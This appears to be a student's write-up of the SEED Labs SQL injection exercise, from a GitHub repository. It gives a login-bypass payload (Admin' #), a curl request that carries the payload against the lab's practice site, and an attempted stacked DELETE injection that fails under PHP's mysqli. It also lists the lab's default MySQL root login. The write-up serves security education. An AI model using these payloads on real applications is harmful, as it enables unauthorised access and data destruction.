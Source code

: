 # SQL-Injection
SQL-INJECTION
Title	Author	Date
SQL Injection Attack Seed Lab Ubunto 16.04	M.Umer Hassan	30-10-2021
Task 1
Login MYSQL:
mysql -u root -pseedubuntu
mysql> use Users;
mysql> show tables;
Use Such a SQL Query:
select * from credential where Name = 'Alice';

Screen shoot is in SQL Injection Folder

Task 2
Task 2.1
USERNAME: "Admin' #"
PASSWORD: "***" whatever the password was
It will result in a SQL Query as:
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='***'

Then statement after # will bi regarded as comments. So we can login in as Admin.

Screen shoot is in SQL Injection Folder

Task 2.2

curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'

It will return a bunch of htmlcode. When exporting outputs to file by > temp.htmland open it

Screen shoot is in SQL Injection Folder

Task 2.3
We neeed to delete such a statement to append a row to current database:

DELETE credential where name='ted';
So constructed:

USERNAME: " '1=1; DELETE credential where name='ted';#"
PASSWORD: " " (Remain Blank)
It fails and alerts with a syntax error:

Screen shoot is in SQL Injection Folder

Because in PHP's mysqli extension, which invokes mysqli::query API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.
